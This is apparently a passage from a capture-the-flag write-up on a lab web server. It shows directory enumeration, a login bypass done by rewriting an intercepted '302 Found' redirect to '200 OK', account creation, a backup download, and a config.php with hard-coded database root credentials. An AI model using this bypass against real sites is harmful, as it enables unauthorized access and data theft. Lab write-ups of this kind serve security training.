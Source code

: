 ```s
/nav.php              (Status: 200) [Size: 1248]
/.php                 (Status: 403) [Size: 277]
/footer.php           (Status: 200) [Size: 217]
/download.php         (Status: 302) [Size: 0] [--> login.php]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/status.php           (Status: 302) [Size: 2966] [--> login.php]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/config.php           (Status: 200) [Size: 0]
/logs.php             (Status: 302) [Size: 0] [--> login.php]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
```

`nav.php` does not require proper authorization to access. However, in order to interact with other pages, requires further authentication. 

Selecting any of the options gives a 302 redirect:

```
HTTP/1.1 302 Found
Date: Sat, 23 Sep 2023 01:15:58 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-Length: 4115
Connection: close
Content-Type: text/html; charset=UTF-8
```

Intercepting this request and changing the `302 Found` to `200 OK` gives access to the original page. Navigate to `accounts.php` and create an account.

This gives access to url `http://10.10.11.104/donwload.php?file=32`. Downloading the file `siteBackup.zip`. 


config.php
```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>

```
